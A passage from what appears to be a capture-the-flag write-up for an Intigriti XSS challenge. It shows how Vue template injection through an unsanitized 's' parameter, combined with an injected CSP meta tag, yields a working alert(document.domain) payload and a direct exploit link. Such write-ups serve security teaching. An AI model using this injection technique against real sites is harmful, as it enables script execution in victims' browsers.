 However, during the **second** iteration of `initVUE()` called by us, the GET parameter `s` will be retrieved from the URL and used without sanitization instead!

This means that we can simply inject `v-{{some-vue-xss-payload}}` and when `initVUE()` is invoked a second time, the XSS will be triggered. We can use the Vue XSS payload from [Mario Heiderich](https://book.hacktricks.xyz/pentesting-web/client-side-template-injection-csti#v2).

This leaves us with our final payload:

```
?s=v-{{constructor.constructor('alert(document.domain)'()}}</title><meta http-equiv="Content-Security-Policy" content="script-src-elem 'sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D' 'sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D' 'sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D'">&version=1e13&vueDevtools=vuejs.php
```

[Direct link](https://challenge-1121.intigriti.io/challenge/index.php?s=v-{{constructor.constructor(%27alert(document.domain)%27)()}}%3C/title%3E%3Cmeta+http-equiv=%22Content-Security-Policy%22+content=%22script-src-elem+*.intigriti.io+unpkg.com+%27sha256-Tz%2FiYFTnNe0de6izIdG%2Bo6Xitl18uZfQWapSbxHE6Ic%3D%27+%27sha256-whKF34SmFOTPK4jfYDy03Ea8zOwJvqmz%2Boz%2BCtD7RE4%3D%27+%27sha256-DyAMQdY7I0oql5LiUzorG%2FUTv8qq5n3GbrvKmdtudyM%3D%27%22%3E&version=1e13&vueDevtools=vuejs.php)

<img src="images/2.jpg" style="border: 1px solid black;">

{% endraw %}
